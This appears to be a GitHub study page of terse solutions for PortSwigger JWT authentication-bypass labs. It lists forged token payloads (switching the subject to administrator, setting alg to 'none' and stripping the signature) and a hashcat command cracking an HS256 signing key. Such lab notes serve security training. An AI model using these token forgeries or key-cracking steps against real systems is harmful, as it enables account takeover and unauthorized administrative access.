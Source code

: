 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```



```
hashcat -a 0 -m 16500 eyJraWQiOiIzOWY3NjFjZS0yMjAyLTQ2NTQtYTQ1OS0xY2U4ZGQ2ZDg3N2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MDk2NzYzNiwic3ViIjoid2llbmVyIn0.WSkgfT0RVI3UG8tkeGtHwZotjxNXfCl9gIlqFaNjthM ./jwt.secrets.list  : secret1


e

```
